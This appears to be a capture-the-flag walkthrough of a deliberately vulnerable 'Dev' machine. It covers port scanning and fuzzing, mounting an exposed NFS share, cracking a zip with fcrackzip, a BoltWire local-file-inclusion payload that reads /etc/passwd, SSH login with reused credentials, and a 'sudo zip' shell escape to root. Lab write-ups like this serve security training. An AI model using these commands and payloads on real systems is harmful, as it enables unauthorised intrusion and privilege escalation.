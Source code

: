 # Dev Walkthrough

## Enumeration
```bash
nmap -A -T4 -p- $IP -oA $IP-dev-scan
```
Of interest to us are ports: 80, 2049, and 8080
![[Pasted image 20220224132019.png]]
On port 80, it's seems to be running Bolt CMS but this shows us an error page and on port 8080, we see that it's a PHP running PHP Version 7.3.27-1

Let's fuzz against port 80 and 8080. Make sure to replace the IP address with your target IP:
For port 80 do:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.179/FUZZ
```

For port 8080 do:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.179:8080/FUZZ
```

From the result, we see that for both ports, there is a `server-status` page.
Port 80 fuzz results:
![[Pasted image 20220224134908.png]]
Port 8080 fuzz results:
![[Pasted image 20220224135005.png]]

We can try to mount the nfs directory:
![[Pasted image 20220224133732.png]]
First, make a directory, with sudo privileges, in `/mnt` called `/mnt/dev`
```bash
sudo mkdir /mnt/dev
```
Then mount the directory to `/mnt/dev`:
```bash
sudo mount -t nfs 192.168.122.179:/srv/nfs /mnt/dev
```
After changing into the directory and list out it's contents we see that there is a password protected zip file called `save.zip`. Make sure to install `sudo apt install fcrackzip` to crack the zip so that we can get the password and unzip it.
![[Pasted image 20220224134255.png]]
```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```
Using `java101` as the password, we use `unzip save.zip` and find 2 files: `id_rsa` and `todo.txt`

If we browse to the directories listed after we had fuzzed the ports, we find someing at `http://192.168.122.179/app/`
![[Pasted image 20220224135445.png]]

Might come in handy from file `config.yml`:
![[Pasted image 20220224135625.png]]
```bash
username: bolt
password: I_love_java
```
Let's create a new user. We will use the credentials `hacker:hacker` in our example. We don't find anything that we can do with this so search on Google for "boltwire exploit". You can also do `searchsploit boltwire`.
![[Pasted image 20220224223245.png]]
Let's use the exploit for LFI. The link to the exploit: https://www.exploit-db.com/exploits/48411
![[Pasted image 20220224223438.png]]
Make sure you have a registered user and paste it into this into the URL: `index.php?p=action.search&action=../../../../../../../etc/passwd
`
Notice that we have LFI
![[Pasted image 20220224223810.png]]
`johnpaul` is a user that has `/bin/bash` access:
![[Pasted image 20220224224102.png]]
Let's use `johnpaul` to `ssh` into the server. We will try to use the password that we got from the `config.yml` file.
![[Pasted image 20220224224537.png]]
It works!
Try to see what `jeanpaul` can execute:
![[Pasted image 20220224224745.png]]
We can escalate privileges by going out to https://gtfobins.github.io/gtfobins/zip/ and copy/pasting and executing the first two lines: 
![[Pasted image 20220224225207.png]]
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
We have root!
![[Pasted image 20220224225510.png]]
